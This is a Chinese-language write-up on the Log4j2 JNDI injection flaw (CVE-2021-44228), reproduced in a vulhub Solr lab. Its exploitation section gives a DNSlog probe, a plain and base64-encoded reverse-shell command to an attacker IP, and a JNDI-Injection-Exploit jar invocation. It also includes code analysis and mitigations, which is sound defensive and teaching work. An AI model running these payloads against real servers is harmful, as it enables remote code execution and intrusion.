 # CVE-2021-44228 Log4j2 RCE

## Description

Apache Log4j2 是一款优秀的 Java 日志框架。2021 年 11 月 24 日，阿里云安全团队向 Apache 官方报告了 Apache Log4j2 远程代码执行漏洞。由于 Apache Log4j2 某些功能存在递归解析功能，攻击者可直接构造恶意请求，触发远程代码执行漏洞。漏洞利用无需特殊配置，经阿里云安全团队验证，Apache Struts2、Apache Solr、Apache Druid、Apache Flink 等均受影响。阿里云应急响应中心提醒 Apache Log4j2 用户尽快采取安全措施阻止漏洞攻击。

vulhub: [Apache Log4j2 lookup JNDI 注入漏洞（CVE-2021-44228）](https://github.com/vulhub/vulhub/blob/master/log4j/CVE-2021-44228/README.zh-cn.md)


### 影响版本

Apache Log4j 2.x <= 2.14.1

## 扩展知识
### JNDI

JNDI (Java Naming and Directory Interface) 是一组应用程序接口，它为开发人员查找和访问各种资源提供了统一的通用接口，可以用来定位用户、网络、机器、对象和服务等各种资源。比如可以利用 JNDI 在局域网上定位一台打印机，也可以用 JNDI 来定位数据库服务或一个远程 Java 对象。JNDI 底层支持 RMI 远程对象，RMI 注册的服务可以通过 JNDI 接口来访问和调用。

​JNDI 是应用程序设计的 Api，JNDI 可以根据名字动态加载数据，支持的服务主要有以下几种：DNS、LDAP、 CORBA 对象服务、RMI 等等。

其应用场景比如：动态加载数据库配置文件，从而保持数据库代码不变动等。

## Explanation of exploit; PoC

### 验证是否存在漏洞

1. 靶场运行后，访问 `http://your-ip:8983` ，如果页面显示 `Solr Admin`，则说明部署成功。
2. 先通过 [Dnslog](http://dnslog.cn/) 平台获取一个子域名 `ie2p24.dnslog.cn`
3. 访问靶场任意页面并通过 BurpSuite 抓包，将请求包发送到 Repeater。
4. 修改请求包中的 URL 为 `/solr/admin/cores?action=${jndi:ldap://ie2p24.dnslog.cn}` ，并发送请求。
    ![](images/cve-2021-44228-8.png)
5. 访问 [Dnslog](http://dnslog.cn/) 平台，可以看到已经收到了请求，说明存在漏洞。
    ![](images/cve-2021-44228-9.png)

### 利用漏洞 RCE

1. 使用 [JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar](https://github.com/welk1n/JNDI-Injection-Exploit/releases) 进行漏洞利用
2. 反弹 Shell 指令 `bash -i >& /dev/tcp/192.168.10.20/4444 0>&1`，其中 `192.168.10.20` 为 Kali 的 IP 地址，`4444` 为 Kali 的监听端口。
3. 为提高命令执行有效负载 Runtime.getRuntime().exec() 的成功率，将此条反弹 Shell 指令进行 Java Runtime Bash 编码，参考 [Java Runtime Bash Encoding](https://x.hacking8.com/java-runtime.html)
4. 编码后的反弹 Shell 指令为 `bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwLjIwLzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}`
5. 将编码后的反弹 Shell 指令作为参数传入 JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar，执行命令 `java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwLjIwLzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}" -A 192.168.10.20`，其中 `-C` 为命令参数，`-A` 为 Kali IP 地址。
    ![](images/cve-2021-44228-10.png)
6. 同时在 Kali 上监听 `4444` 端口。
    ![](images/cve-2021-44228-11.png)
7. 访问靶场任意页面并通过 BurpSuite 抓包，将请求包发送到 Repeater，修改请求包中的 URL 为 `/solr/admin/cores?action=${jndi:rmi://192.168.10.20:1099/aq9oex}` ，并发送请求。其中 `rmi://192.168.10.20:1099/aq9oex` 为 JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar 生成的 Payload。
    ![](images/cve-2021-44228-12.png)
8. 回到 Kali，可以看到已经收到了反弹 Shell 请求，说明利用成功。
    ![](images/cve-2021-44228-13.png)

### 漏洞分析

漏洞触发点在 Logger 的 `debug、info、warn、error、fatal` 方法

![](images/cve-2021-44228-1.png)

这些方法都会调用 `logIfEnabled` 方法

![](images/cve-2021-44228-2.png)

从 `logIfEnabled` 层层跟入，到达 `MessagePatternConverter` 类的 `format` 方法，在这个方法内部，会先判断 `this.config != null && !this.noLookups` 的值是否为真，其中 `this.noLookups` 的值来自于 `FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS`，`FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS` 的值又来自于 JVM 参数 `log4j2.formatMsgNoLookups` 的值，相关代码如下

```java
this.noLookups = Constants.FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS || noLookupsIdx >= 0;
···
public static final boolean FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS = PropertiesUtil.getProperties().getBooleanProperty("log4j2.formatMsgNoLookups", false);
```

所以只要 JVM 参数中 `log4j2.formatMsgNoLookups==True`，漏洞利用就无法成功。

之后的代码会判断要打印的日志字符串 `workingBuilder` 中是否包含连续的两个字符 `$` 和 `{`。如果存在，就将 `${xxx}` 这段字符提取出来，传入 `StrSubstitutor` 类的 `replace` 方法

![](images/cve-2021-44228-3.png)

最后传入 `substitute` 方法中。`substitute` 会调用 `resolveVariable` 方法，

![](images/cve-2021-44228-4.png)

`resolveVariable` 方法中会进行 `resolver.lookup` 查询，

![](images/cve-2021-44228-5.png)

![](images/cve-2021-44228-6.png)

最后会进入 `JndiLookup.lookup` 方法进行 jndi 查询，查询的参数就是 `ldap://127.0.0.1:1389/a`

![](images/cve-2021-44228-7.png)


## Mitigation
### 通用修补建议

- 升级 Apache Log4j2 所有相关应用到最新的 log4j-2.15.0-rc1 版本，地址 https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc1
- 升级已知受影响的应用及组件，如 srping-boot-strater-log4j2/Apache Solr/Apache Flink/Apache Druid。

### 临时修补建议

- 设置 JVM 启动参数 `-Dlog4j2.formatMsgNoLookups=true`
- 拦截请求中的 `${` 字符串
- 限制不必要的应用访问外网

## References

- [Apache Log4j 远程代码执行漏洞源码级分析](https://www.cnblogs.com/510602159-Yano/p/15689497.html)
- [CVE-2021-44228——Log4j2-RCE漏洞复现](https://www.cnblogs.com/loongten/p/15822195.html)
- [java命令执行payloads编码工具](https://x.hacking8.com/java-runtime.html)
- [JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit/blob/master/README-CN.md)
- [marshalsec](https://github.com/mbechler/marshalsec)